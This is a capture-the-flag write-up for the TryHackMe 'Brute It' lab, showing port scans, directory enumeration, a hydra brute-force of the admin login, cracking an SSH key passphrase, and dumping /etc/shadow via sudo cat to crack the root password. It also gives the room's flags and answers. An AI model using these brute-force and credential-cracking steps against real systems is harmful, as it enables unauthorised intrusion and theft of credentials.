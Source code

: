 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Conducting some common port scans gives us the following details:
```shell-session
$ rustscan -b 4500 -a TARGET_IP -r 1-65535 --ulimit 5000 -t 2000 -- -oN rustscan_port_scan.txt
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack


$ rustscan -b 4500 -a TARGET_IP -p 22,80 --ulimit 5000 -t 2000 -- -sV -oN rustscan_service_scan.txt
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


$ rustscan -b 4500 -a TARGET_IP -p 22,80 --ulimit 5000 -t 2000 -- --script=vuln -oN rustscan_vuln_scan.txt
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
| http-cookie-flags: 
|   /admin/: 
|     PHPSESSID: 
|       httponly flag not set
|   /admin/index.php: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|   /admin/: Possible admin folder
|_  /admin/index.php: Possible admin folder
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
```

> How many ports are open?
> 
> Answer: `2`


> What version of SSH is running?
> 
> Answer: `OpenSSH 7.6p1`


> What version of Apache is running?
> 
> Answer: `2.4.29`


OS detection by `nmap` does not give us much to go on what linux distro is being used on the target, but visiting the web server on port 80 using a browser sure gives us the answer!
> Which Linux distribution is running?
> 
> Answer: `Ubuntu`


Time for some directory enumeration:
```shell-session
$ gobuster dir -t 128 -u http://TARGET_IP/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_dir2_3_small.txt
$ cat gobuster_dir2_3_small.txt 
/admin                (Status: 301) [Size: 312] [--> http://TARGET_IP/admin/]
```

> What is the hidden directory?
> 
> Answer: `/admin`

```shell-session
$ hydra -l admin -P /usr/share/seclists/Passwords/rockyou.txt -t 64 TARGET_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid"
[80][http-post-form] host: TARGET_IP   login: admin   password: xavier
```

> What is the user:password of the admin panel?
> 
> Answer: `admin:xavier`

Logging into the portal takes us to the following page:
![](rsapage.png)


Clicking on the _RSA private key_ hyperlink takes us to: `http://TARGET_IP/admin/panel/id_rsa`, which contains a RSA private key. Saving that into a file, we can now log into the ssh service on the target using that and the username: `john` (inspect the page to see why :P)

## Gaining Access

```shell-session
$ ssh -i bruteit_idrsa  john@TARGET_IP
Enter passphrase for key 'bruteit_idrsa':
```

Since the file requires a password, let's crack it with `ssh2john` and `john`:

```shell-session
$ ssh2john bruteit_idrsa > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
...
rockinroll       (bruteit_idrsa)
```


> What is John's RSA Private Key passphrase?
> 
> Answer: `rockinroll`


Let's now log into the target using this passphrase:
```shell-session
$ ssh -i bruteit_idrsa  john@TARGET_IP
Enter passphrase for key 'bruteit_idrsa': rockinroll

john@bruteit:~$ ls
user.txt
john@bruteit:~$ cat user.txt 
THM{a_password_is_not_a_barrier}
```


> `user.txt`
> 
> Answer: `THM{a_password_is_not_a_barrier}`

Also...
> Web flag
> 
> Answer: `THM{brut3_f0rce_is_e4sy}`


## Privilege Escalation

Let's get some info before we can proceed:
```shell-session
john@bruteit:~$ uname -a
Linux bruteit 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

john@bruteit:~$ cat /etc/issue
Ubuntu 18.04.4 LTS \n \l

john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat


john@bruteit:~$ find / -perm /u=s,g=s 2>/dev/null
/bin/fusermount
/bin/umount
/bin/mount
/bin/su
/bin/ping

...
```

Since we can run `cat` without a password as root, let's get the `passwd` and `shadow` files to crack passwords from...
```shell-session
## Also, you can just do this: (lmao)
john@bruteit:~$ sudo cat /root/root.txt
...


john@bruteit:~$ sudo cat /etc/passwd
...

john@bruteit:~$ sudo cat /etc/shadow
...
```

Save the contents to a file and unshadow the `shadow` file, then we crack it all using `hashcat`/`john`:
```shell-session
$ unshadow passwd shadow > unshadowed
$ john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed
football         (root) 

On the `ssh` session:
john@bruteit:~$ su 
Password: football
root@bruteit:/home/john# 
root@bruteit:/home/john# cd
root@bruteit:~# ls
root.txt
root@bruteit:~# cat root.txt 
THM{pr1v1l3g3_3sc4l4t10n}
```

> What is the root's password?
> 
> Answer: `football`

> `root.txt`
> 
> Answer: `THM{pr1v1l3g3_3sc4l4t10n}`

## Conclusion
If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Brute It](https://tryhackme.com/room/bruteit) by [ReddyyZ](https://tryhackme.com/p/ReddyyZ)
